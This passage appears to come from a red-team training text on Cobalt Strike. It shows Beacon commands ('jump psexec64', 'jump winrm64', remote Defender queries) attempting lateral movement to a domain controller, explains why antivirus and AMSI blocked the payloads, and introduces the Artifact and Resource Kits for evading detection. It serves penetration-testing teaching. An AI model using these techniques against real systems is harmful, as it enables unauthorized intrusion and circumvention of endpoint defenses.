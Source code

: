 Cobalt Strike has two main flavours of artifact. Compiled (EXEs and DLLs); and scripts (PowerShell, VBA, SCT, etc). Each workflow uses a particular artifact - for instance, `jump psexec64` uses a compiled x64 service binary and `jump winrm64` uses x64 PowerShell.

Sometimes you will see commands fail:

```
beacon> ls \\dc-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 11:11:35   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     05/06/2021 09:40:04   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     05/16/2021 12:31:51   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     03/25/2021 10:23:35   Shares
          dir     02/19/2021 11:39:02   System Volume Information
          dir     03/25/2021 10:27:55   Users
          dir     05/06/2021 09:41:14   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 798mb    fil     05/16/2021 12:40:06   pagefile.sys

beacon> jump psexec64 dc-2 smb
[-] Could not start service c8e8647 on dc-2: 225
[-] Could not connect to pipe: 2

beacon> jump winrm64 dc-2 smb
[-] Could not connect to pipe: 2

#< CLIXML
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><Obj S="progress" RefId="0"><TN RefId="0"><T>System.Management.Automation.PSCustomObject</T><T>System.Object</T></TN><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Searching for available modules</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Processing</T><SR>-1</SR><SD>Searching UNC share \\dc-2\home$\nlamb\Documents\WindowsPowerShell\Modules.</SD></PR></MS></Obj><Obj S="progress" RefId="1"><TNRef RefId="0" /><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Searching for available modules</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD>Searching UNC share \\dc-2\home$\nlamb\Documents\WindowsPowerShell\Modules.</SD></PR></MS></Obj><Obj S="progress" RefId="2"><TNRef RefId="0" /><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Preparing modules for first use.</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD> </SD></PR></MS></Obj><S S="Error">At line:1 char:1_x000D__x000A_</S><S S="Error">+  Set-StrictMode -Version 2_x000D__x000A_</S><S S="Error">+ ~~~~~~~~~~~~~~~~~~~~~~~~~~_x000D__x000A_</S><S S="Error">This script contains malicious content and has been blocked by your antivirus software._x000D__x000A_</S><S S="Error">    + CategoryInfo          : ParserError: (:) [], ParseException_x000D__x000A_</S><S S="Error">    + FullyQualifiedErrorId : ScriptContainedMaliciousContent_x000D__x000A_</S><S S="Error">    + PSComputerName        : dc-2_x000D__x000A_</S><S S="Error"> _x000D__x000A_</S></Objs>
```
 

The issue with the `winrm64` attempt is obvious if you read the error (not always easy within the XML): **"This script contains malicious content and has been blocked by your antivirus software"**; and error code `225` is **"Operation did not complete successfully because the file contains a virus or potentially unwanted software."**

`Get-MpThreatDetection` is a Windows Defender cmdlet that can also show detected threats.

```
beacon> remote-exec winrm dc-2 Get-MpThreatDetection | select ActionSuccess, DomainUser, ProcessName, Resources

ActionSuccess  : True
DomainUser     : 
ProcessName    : Unknown
Resources      : {file:_C:\Windows\c8e8647.exe, file:_\\dc-2\ADMIN$\c8e8647.exe}
PSComputerName : dc-2
RunspaceId     : 19a06a6d-7a99-4df2-926b-415b8de45b04

ActionSuccess  : True
DomainUser     : DEV\nlamb
ProcessName    : C:\Windows\System32\wsmprovhost.exe
Resources      : {amsi:_C:\Windows\System32\wsmprovhost.exe}
PSComputerName : dc-2
RunspaceId     : 19a06a6d-7a99-4df2-926b-415b8de45b04
```

The first entry is the `winrm64` attempt. The offending process was `wsmprovhost.exe` (the host process for WinRM plugins) which was detected and blocked by AMSI (antimalware scan interface). So this is an in-memory detection.

The second entry is the `psexec64` attempt. The process `c8e8647.exe` matches the name of the Beacon artifact which is automatically uploaded to the target in the workflow. This was detected and deleted by the traditional on-disk engine.

Cobalt Strike provides two "kits" that allow us to modify the Beacon artifacts, obviously with the aim of avoiding detection. The **Artifact Kit** modifies the compiled artifacts and the **Resource Kit** modifies script-based artifacts.